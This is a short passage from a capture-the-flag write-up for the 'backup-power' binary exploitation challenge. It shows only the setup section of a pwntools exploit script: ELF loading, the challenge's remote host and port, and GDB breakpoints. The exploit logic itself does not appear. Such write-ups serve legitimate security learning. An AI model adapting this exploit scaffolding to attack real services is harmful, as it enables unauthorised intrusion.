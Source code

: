 <figure><img src="../../.gitbook/assets/image (52).png" alt="" width="563"><figcaption></figcaption></figure>

Below is the full exploit script:

{% code title="exploit.py" %}
```python
#!/usr/bin/env python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './backup-power'
elf = context.binary = ELF(exe, checksec=True)
# libc = './libc.so.6'
# libc = ELF(libc, checksec=False)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]
host, port = 'backup-power.chal.uiuc.tf', 1337

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port, ssl=True)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
# break *0x400e8c
# break *0x0400cb4
break *0x400d34
'''.format(**locals())

# =========================================================
```